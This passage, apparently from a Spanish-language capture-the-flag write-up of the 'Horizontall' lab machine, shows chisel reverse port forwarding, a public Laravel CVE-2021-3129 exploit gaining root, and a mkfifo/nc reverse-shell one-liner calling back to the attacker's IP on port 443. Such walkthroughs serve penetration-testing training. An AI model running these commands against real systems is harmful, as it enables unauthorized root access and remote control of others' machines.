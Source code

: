 Desde la máquina víctima `ejecutamos` estas `instrucciones`

```
strapi@horizontall:/tmp/scripts$ ./chisel_1.9.1_linux_amd64 client 10.10.16.8:1234 R:8000:127.0.0.1:8000 
```

Desde nuestro equipo `ejecutamos` estas `instrucciones`

```
# ./chisel_1.9.1_linux_amd64 server -p 1234 --reverse  
```

Una vez ejecutados estos comandos podemos visualizar la página accediendo a `http://localhost:8000/`

Buscando un exploit para esta versión de laravel nos encontramos con [https://github.com/nth347/CVE-2021-3129_exploit.git](https://github.com/nth347/CVE-2021-3129_exploit.git)

Debido a que hemos hecho `remote port forwarding` podemos `ejecutar` el `exploit` en nuestra máquina local. Efectivamente el exploit funciona y obtenemos `ejecución de comandos` como usuario `root`

```
# ./exploit.py http://localhost:8000 Monolog/RCE1 id
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 4239, done.
remote: Counting objects: 100% (1133/1133), done.
remote: Compressing objects: 100% (441/441), done.
remote: Total 4239 (delta 746), reused 891 (delta 666), pack-reused 3106
Receiving objects: 100% (4239/4239), 601.51 KiB | 1.63 MiB/s, done.
Resolving deltas: 100% (1859/1859), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

Vamos a mandarnos una `shell` a nuestro equipo, lo primero nos ponemos en `escucha` por el `puerto 443`

```
# nc -nlvp 443
```

Nos mandamos una `shell` como `root` a nuestro equipo

```
# ./exploit.py http://localhost:8000 Monolog/RCE1 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.8 443 >/tmp/f'
```

Efectivamente ya nos hemos `convertido` en usuario `root`

```
root@horizontall:/home/developer/myproject/public# whoami
root
```
